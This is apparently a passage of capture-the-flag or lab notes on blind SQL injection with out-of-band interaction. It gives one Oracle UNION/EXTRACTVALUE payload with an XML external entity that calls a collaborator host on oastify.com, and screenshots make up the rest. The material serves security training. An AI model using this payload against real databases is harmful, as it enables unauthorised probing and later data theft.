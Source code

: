 
---

## 16. Blind SQL Injection With Out-Of-Band Interaction

![](assets/Pasted%20image%2020251016112358.png)

First open the collaborator and take the domain to use it as a third party
![](assets/Pasted%20image%2020251016115415.png)

`'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wrrduhx89k31cjo4bta3xsq0drji7cv1.oastify.com/"> %remote;]>'),'/l') FROM dual --`

![](assets/Pasted%20image%2020251016115041.png)

![](assets/Pasted%20image%2020251016115457.png)
